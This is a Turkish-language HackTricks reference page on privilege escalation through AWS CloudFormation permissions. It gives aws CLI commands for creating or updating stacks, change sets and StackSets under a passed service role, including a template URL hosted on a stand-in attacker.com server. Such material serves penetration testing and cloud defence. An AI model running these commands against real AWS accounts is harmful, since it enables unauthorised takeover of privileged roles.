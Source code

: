 # AWS - Cloudformation Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## cloudformation

Cloudformation hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Bu izinlere sahip bir saldırgan, **belirtilen bir rolün izinleri altında eylemler gerçekleştirmek için** kendi sunucusunda barındırılan özel bir şablon ile bir **CloudFormation yığını** oluşturarak **yetkileri artırabilir:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Aşağıdaki sayfada **`cloudformation:DescribeStacks`** ek izni ile bir **istismar örneği** bulacaksınız:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Bu durumda, **mevcut bir cloudformation yığını** kötüye kullanarak güncelleyebilir ve önceki senaryodaki gibi ayrıcalıkları artırabilirsiniz:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Bu izne sahipseniz ancak **`iam:PassRole` yoksa**, yine de **kullanılan yığınları güncelleyebilir** ve **zaten eklenmiş IAM Rolleri** kötüye kullanabilirsiniz. Sömürü örneği için önceki bölüme bakın (güncellemeye herhangi bir rol belirtmeyin).

`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Zaten eklenmiş cloudformation hizmet rolüne privesc.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bir rolü **geçme ve bir ChangeSet oluşturma & yürütme** izinlerine sahip bir saldırgan, **yeni bir cloudformation yığını oluşturup/güncelleyerek cloudformation hizmet rollerini kötüye kullanabilir**; tıpkı CreateStack veya UpdateStack ile olduğu gibi.

Aşağıdaki sömürü, **ChangeSet izinlerini** kullanarak bir yığın oluşturmanın **bir varyasyonudur**[ **CreateStack birine**](./#iam-passrole-cloudformation-createstack).
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `ChangeSet` izinleri vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** cloudformation hizmet rolleri için privesc.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bu, **IAM rolleri** geçmeden önceki yöntem gibidir, bu nedenle sadece **zaten eklenmiş olanları kötüye kullanabilirsiniz**, sadece parametreyi değiştirin:
```
--change-set-type UPDATE
```
**Olası Etki:** Zaten ekli olan cloudformation hizmet rolüne privesc.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Bir saldırgan, bu izinleri kötüye kullanarak StackSet'leri oluşturup/güncelleyerek rastgele cloudformation rollerini kötüye kullanabilir.

**Olası Etki:** Cloudformation hizmet rollerine privesc.

### `cloudformation:UpdateStackSet`

Bir saldırgan, passRole izni olmadan bu izni kötüye kullanarak StackSet'leri güncelleyebilir ve ekli cloudformation rollerini kötüye kullanabilir.

**Olası Etki:** Ekli cloudformation rollerine privesc.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
